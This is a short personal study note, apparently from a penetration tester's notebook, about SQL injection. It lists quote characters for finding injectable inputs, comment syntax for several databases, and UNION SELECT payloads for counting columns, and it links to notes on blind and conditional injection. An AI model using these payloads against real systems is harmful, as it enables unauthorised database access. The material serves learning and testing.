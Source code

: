 # SQL Injection

## Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

## Union Based SQL Injection
> If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get databases**:




### [[Blind SQLi]]
If you cant see the output of your SQL query then this is the way to go ╰(*°▽°*)╯


[[Blind SQLi]]
**If it does not seem to return specific results depending on your injection...**
- ...and it does not seem to be modifying the response of the application in any way, check out [[Blind SQLi]]. 
- ...and your query triggers a boolean response from the application (i.e. 200/500, or a generic success/fail message in the page), check out [[Conditional SQLi]]

**What other options are there?**
Out-of-band SQLi
	I don't have access to burp collaborator so this is out of the question with the resources I have at the moment
- 
